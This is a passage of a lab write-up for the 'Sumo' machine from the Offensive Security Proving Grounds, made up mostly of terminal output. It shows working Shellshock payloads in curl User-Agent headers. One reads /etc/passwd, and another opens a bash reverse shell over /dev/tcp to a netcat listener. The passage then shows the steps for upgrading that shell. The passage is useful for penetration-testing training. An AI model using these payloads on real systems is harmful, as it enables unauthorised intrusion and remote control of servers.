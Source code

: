 ![Web](https://github.com/jenriquezv/offsec_pg/blob/main/Sumo/img/2.png)

![Web](https://github.com/jenriquezv/offsec_pg/blob/main/Sumo/img/3.png)


```console
root@kali:/OSCPv3/offsec_pg/Sumo# curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' http://192.168.80.87/cgi-bin/test

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
sumo:x:1000:1000:sumo,,,:/home/sumo:/bin/bash
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
```

```console
root@kali:/OSCPv3/offsec_pg/Sumo# curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/bash -l > /dev/tcp/192.168.49.80/80 0<&1 2>&1' http://192.168.80.87/cgi-bin/test
```


```console
root@kali:/OSCPv3/offsec_pg/Sumo# nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.80] from (UNKNOWN) [192.168.80.87] 38622
root@kali:/OSCPv3/offsec_pg/Sumo# nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.80] from (UNKNOWN) [192.168.80.87] 38623
whoami
www-data
script /dev/null -c bash
www-data@ubuntu:/usr/lib/cgi-bin$ ^Z
[1]+  Detenido                nc -lvnp 80
root@kali:/OSCPv3/offsec_pg/Sumo# stty raw -echo
root@kali:/OSCPv3/offsec_pg/Sumo# nc -lvnp 80
                                             reset: unknown terminal type unknown
Terminal type? xterm

Erase set to delete.
Kill set to control-U (^U).
Interrupt set to control-C (^C).
www-data@ubuntu:/usr/lib/cgi-bin$ export TERM=xterm
www-data@ubuntu:/usr/lib/cgi-bin$ export SHELL=bash
www-data@ubuntu:/usr/lib/cgi-bin$ stty rows 36 columns 144
www-data@ubuntu:/usr/lib/cgi-bin$ 
```
